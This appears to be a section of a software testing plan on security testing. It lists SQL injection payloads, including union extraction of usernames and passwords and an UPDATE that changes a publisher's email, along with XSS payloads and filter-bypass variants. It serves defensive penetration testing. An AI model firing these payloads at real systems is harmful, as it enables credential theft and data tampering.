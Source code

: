 ### 6. Data Integrity & Security Fortress Testing

#### 6.1 SQL Injection Penetration Testing
**Advanced SQL Injection**:
```sql
-- Time-based blind injection
'; WAITFOR DELAY '00:00:10'; --

-- Union-based extraction
' UNION SELECT username,password FROM users; --

-- Boolean-based blind
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a

-- Error-based injection
' AND (SELECT COUNT(*) FROM (SELECT 1 UNION SELECT 2)x GROUP BY CONCAT(version(),FLOOR(RAND(0)*2))); --

-- Second-order injection
'; UPDATE publishers SET email='evil@hacker.com' WHERE id=1; --
```

#### 6.2 XSS Vulnerability Scanning
**XSS Payload Arsenal**:
```javascript
// Basic XSS
<script>alert("XSS")</script>

// Event handler XSS  
<img src="x" onerror="alert('XSS')">

// JavaScript protocol
javascript:alert('XSS')

// Template injection
${alert('XSS')}
{{alert('XSS')}}
{alert('XSS')}

// SVG XSS
<svg onload="alert('XSS')">

// Data URI XSS
data:text/html,<script>alert('XSS')</script>

// Filter bypass
<scr<script>ipt>alert('XSS')</scr</script>ipt>

// Encoding bypass
%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E
```
